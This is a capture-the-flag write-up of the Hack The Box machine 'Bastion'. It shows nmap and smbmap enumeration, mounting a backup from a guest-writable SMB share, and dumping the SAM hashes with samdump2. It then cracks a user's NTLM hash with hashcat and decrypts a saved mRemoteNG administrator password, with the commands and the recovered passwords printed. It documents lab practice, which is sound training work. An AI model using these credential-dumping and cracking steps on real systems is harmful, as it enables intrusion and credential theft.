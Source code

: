 +++
title = "Hack The Box: Bastion"
date = "2019-09-06"
author = ""
cover = ""
tags = ["HTB"]
keywords = ["", ""]
description = ""
showFullContent = false
+++
<!--more-->
{{< image src="/img/bastion/info_card.png" alt="Bastion Info Card" position="center" style="border-radius: 8px;" >}}

# Summary

Bastion was a relatively easy box. There is an smb share is accessible without credentials and inside there is a backup drive that we can mount and access. From the drive we can dump the SAM file and crack it to get login credentials. Once logged in we find mRemoteNG installed and extract its saved passwords to get admin access. 

# Enumeration

I start with this nmap command to quickly find open ports.
```sh
nmap -sS -p- --min-rate=1000 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.23s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
```

Then run a thorough service scan on the discovered ports.

```sh
nmap -sC -sV -p 22,135,139,445,5985,47001 -oA nmap/bastion 10.10.10.134

Nmap scan report for 10.10.10.134
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -42m39s, deviation: 1h09m15s, median: -2m40s
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-06T13:28:45+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-09-06 12:28:49
|_  start_date: 2019-09-06 11:58:13

```
## SMB

Based on the open ports the best service to check out first is smb.

```sh
smbmap -H 10.10.10.134 -u ' '

[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.134...
[+] IP: 10.10.10.134:445        Name: 10.10.10.134
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
```
After running smbmap, I discover a share called Backups that I have read and write permissions as a guest user.

Since this is a windows machine I will switch to my windows vm to make my work easier.

{{< image src="/img/bastion/backup_share.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

Contents of note.txt

*Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.*

Going deeper into the WindowsImageBackup folder I found a backup image which is quite big. Downloading the whole file would not be an option as the note.txt suggested. Fortunately I can mount it through the share remotely, this is the reason why I wanted to use a windows vm.

{{< image src="/img/bastion/backup_share_2.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

On mounting it, it appears as Local Disk (D:). After accessing the home directory of user L4mpje and looking through the folders there was no user.txt, it must have been excluded from the backup.

{{< image src="/img/bastion/backup_share_3.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

At this stage I was stuck for a while (I still suck at owning windows) and after some hints in the forum I figured I should look at where credentials are stored locally on windows and how to get them. Simply the equivalent of /etc/shadow or /etc/passwd on linux.

I learnt that I should be looking in C:\windows\system32\config for the SAM and SYSTEM files which I found.

{{< image src="/img/bastion/backup_share_4.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

##### Now to get the credentials!

I pulled the 2 files back to my kali box and using samdump2 I got the user hash.

```sh
samdump2 SYSTEM SAM

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
I then cracked the NTLM hash for L4mpje using hashcat and got the password.

```sh
hashcat -m 1000 -a 0 26112010952d963c8dc4217daec986d9 /usr/share/wordlists/rockyou.txt --force

26112010952d963c8dc4217daec986d9:bureaulampje
```
# Exploitation

Now that I have a username and password I can login through ssh.

{{< image src="/img/bastion/bastion_5.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

Now that user is owned, let's try to escalate privileges to admin.

I switched to powershell and started looking at installed programs. mRemoteNG isn't a default windows application so let me look into it and if it can help in privesc.

{{< image src="/img/bastion/bastion_6.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

<br>

According to their website:

*mRemoteNG is a fork of mRemote: an open source, tabbed, multi-protocol, remote connections manager.*

I found a metasploit module that claims to extract saved passwords from mRemoteNG. Since I am logged in I don't need metasploit so I looked at the source to see how it extracts the passwords and decrypts them.

The saved passwords are located in AppData in mRemoteNG\confCons.xml. Once I found the file the admin password was there but encrypted.

{{< image src="/img/bastion/bastion_7.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

I was able to find a script on github to decrypt the password.

```sh
./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==

Password: thXLHM96BeKL0ER2
```
I can finally login as administrator and own system!

{{< image src="/img/bastion/bastion_8.png" alt="backup share" position="center" style="border-radius: 8px;" >}}

# References

- [mremoteng_decrypt.py](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py)
- [mremote metasploit module](https://vulners.com/metasploit/MSF:POST/WINDOWS/GATHER/CREDENTIALS/MREMOTE/)
